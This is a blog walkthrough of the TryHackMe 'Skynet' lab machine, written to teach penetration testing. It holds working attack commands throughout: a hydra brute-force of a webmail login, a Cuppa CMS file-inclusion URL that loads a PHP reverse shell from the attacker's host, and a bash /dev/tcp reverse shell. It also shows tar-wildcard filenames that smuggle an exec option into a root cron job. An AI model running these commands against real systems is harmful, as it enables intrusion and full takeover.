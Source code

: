 ```yaml
---
title: "TryHackMe - Skynet - Walkthrough"
date: 2020-12-01T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - skynet
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Skynet][skynet]. Let’s get started!

# Deploy and Compromise the machine
Since we don’t know anything about this machine, let’s start with an nmap scan! The command I used was: `nmap -sC -sV -oN nmap.txt <machine_ip>`

![s1](/assets/images/thm/skynet/s1.webp)

We can see that we have `ssh`, `http`, `pop3`, `smb`, and `imap` open. We can immediately eliminate `ssh` as an attack vector, so we need to focus on the others. First answer is asking for a password to an email, so let’s start by looking at the website.

![s2](/assets/images/thm/skynet/s2.webp)

We don’t see much here. Let’s run a gobuster scan in order to gather some directories. I used this command: `gobuster dir -u http://10.10.8.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

gobuster finds a few directories, however we aren’t able to access them. We get a **Forbidden** message. I will let gobuster continue running in the background, but let’s checkout the smb avenue.

If we use the `smbclient` we see the following (Hit **Enter** when prompted for a password):

![s3](/assets/images/thm/skynet/s3.png)

We definitely see some interesting share’s here. We have a possible username: milesdyson. Lets checkout that share: `smbclient \\\\10.10.8.13\\milesdyson` 

Unfortunately, we don’t have access. Instead, let’s try the `anonymous` share.

We are in! We see `attention.txt` and `logs`. Run: `get attention.txt` to download the file.

![s4](/assets/images/thm/skynet/s4.png)

Hmm…that’s interesting! Maybe the logs caught some people’s passwords? Let’s see!

`cd` into the logs directory, and we see 3 files. The only one that has any date (due to the size) is `logs1.txt`. Let’s download that and take a look!

![s5](/assets/images/thm/skynet/s5.png)

This looks very promising!! This looks like it could be some passwords? We could use this as a wordlist in `hydra` if we can find a login page anywhere. Let’s check back with `gobuster`.

We see one new entry `/squirrelmail`. Let’s see if we can reach this page!

![s6](/assets/images/thm/skynet/s6.webp)

Success!! Now we “think” we already know a username: `milesdyson`, but we don’t know his password. We could try each entry in that list one-by-one, but that might take some time. Let’s try to use hydra against the login. Format your `hydra` like the following:

```bash
hydra -l milesdyson -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'
```

If you are unsure as to what those mean, or how to find them, read this article on the topic: here. Our command will be the following:

```bash
hydra -l milesdyson -P log1.txt 10.10.8.13 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

![s7](/assets/images/thm/skynet/s7.webp)

Perfect! Our first answer! Let’s login to the mail! If we look at the emails we find a **Samba Password reset** email.

![s8](/assets/images/thm/skynet/s8.png)

After looking around more, there doesn’t seem to be anything else. Let’s login to the `milesdyson` samba share using that password!

`smbclient -U milesdyson \\\\10.10.8.13\\milesdyson`

When we `ls` the share, we see a few items in there. One that sticks out to me is the notes directory.

When we look at the notes directory, there are a lot of files in it, but which one is important?? `get important.txt`

![s9](/assets/images/thm/skynet/s9.png)

There is our next answer! Now we can navigate to that directory.

![s10](/assets/images/thm/skynet/s10.webp)

Hmm…not much here. But we did see a mention of `CMS` in the `important.txt` file. Let’s run a gobuster scan against this URL:

`gobuster dir -u http://10.10.8.13/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Eventually, we get back an `/administrator` page. Navigate to that page.

![s11](/assets/images/thm/skynet/s11.webp)

We see it is using **Cuppa CMS**. Let’s see if there are any exploits for this in `searchsploit`.

`searchsploit cuppa`
`cat /usr/share/exploitdb/exploits/php/webapps/25971.txt`

Reading through, we get our third answer. Now let’s use the exploit!

First, we need to know how we can use a file in order to get a shell on a machine. In this case, we know this is using .php. Let’s use `php-reverse-shell.php`! This can be found [here][php-rev-shell]. Make sure to change the parameters to your machine and IP you will use to listen for the reverse shell!

![s12](/assets/images/thm/skynet/s12.png)

Now we need to start a http server on our machine in the folder where the reverse shell file is located: `python3 -m http.server 80`

Start a netcat listener on the specified port: `nc -nvlp 1234`

Then curl or navigate to the following url:

`http://10.10.8.13/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<thm_tun0_ip>:80/php-reverse-shell.php`

When you navigate to your terminal with the netcat listener, you should see a shell! Let’s look for the user flag.

![s13](/assets/images/thm/skynet/s13.png)

Now we need to escalate our privileges for the root flag! Before we do anything else, let’s get into a better shell using python:

`python -c 'import pty; pty.spawn("/bin/bash")'`

Let’s see if we have any sudo permissions: `sudo -l`, nope! Maybe there are `cron` jobs running as root?

`cat /etc/crontab`

We see there is a `backup.sh` that runs every minute! There’s our target. Let’see what’s in there: `cat /home/milesdyson/backups/backup.sh`

![s14](/assets/images/thm/skynet/s14.png)

We need to use this cron job to gain a shell. I wonder if there is a way to execute a shell from tar? Let’s check out [GTFObins][gtfo]. We can search for the `tar` command, and we see a few options. Let’s try the first one:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

We can use this to get a shell, but we need to create some things first:

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<thm_tun0_ip>/1235 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Now we can open up a `netcat` listener to get the reverse shell: `nc -nvlp 1235`
**NOTE:** This could take up to a minute for the shell to come through

We have a root shell! Let’s find our root flag!

![s15](/assets/images/thm/skynet/s15.png)

# References
[TryHackMe][thm] | [Skynet Room][skynet] | Hydra Brute-Force Login | [php-reverse-shell.php][php-rev-shell] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[skynet]: https://tryhackme.com/why-subscribe?roomCode=skynet
[php-rev-shell]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io